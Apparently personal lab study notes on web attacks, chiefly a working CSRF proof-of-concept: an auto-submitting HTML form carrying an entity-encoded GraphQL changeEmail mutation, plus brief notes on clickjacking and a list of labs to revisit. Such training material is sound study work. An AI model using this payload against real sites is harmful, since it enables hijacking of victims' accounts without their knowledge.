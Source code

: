 **Performing CSRF exploits over GraphQL:**
```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



### Return to these labs:
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs